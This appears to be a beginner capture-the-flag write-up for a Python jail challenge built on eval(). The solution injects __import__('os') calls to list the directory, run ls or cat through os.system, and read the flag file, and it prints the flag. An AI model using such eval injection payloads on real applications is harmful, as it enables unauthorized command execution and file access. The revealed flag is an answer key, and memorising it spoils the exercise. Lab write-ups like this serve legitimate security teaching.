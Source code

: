 # PyJail-Intro 1

### Difficulty: Beginner
### Objective: `eval()`

## Setting Up
Install both the `pyjail.py` and `flag-afd3ca89be90859c70e89a903f09f9fb.txt` files into the same directory. Then, just execute the python script to start the challenge. 

![image](https://github.com/user-attachments/assets/cf04ccba-8bc8-4779-9045-b283c7dd7651)



## Solution

<details>

### Step 1
We can use the `__import__` and then called the `os` modules to use one of its functions which is `listdir` or `system`. Both have similar functions to list down the files in the working directories.

`__import__('os').listdir('.')`

![image](https://github.com/user-attachments/assets/e56d22e8-6b1e-4b6e-b7e1-2dd5d82f5723)

OR

> Linux OS:
`__import__('os').system('ls')`

> Windows OS:
`__import__('os').system('dir')`

### Step 2
Now we know that there's a file called `flag-afd3ca89be90859c70e89a903f09f9fb.txt` so we can just display the content by using `cat` or `type` depends on the OS you're using.

>Linux OS:
`__import__('os').system('cat flag-afd3ca89be90859c70e89a903f09f9fb.txt')`

>Windows OS:
`__import__('os').system('type flag-afd3ca89be90859c70e89a903f09f9fb.txt')`

![image](https://github.com/user-attachments/assets/254bd2e3-7f9d-484a-8470-08befb211702)

### Flag 
>flag{93da9b115c23778dafd95da03f642d48}

</details>
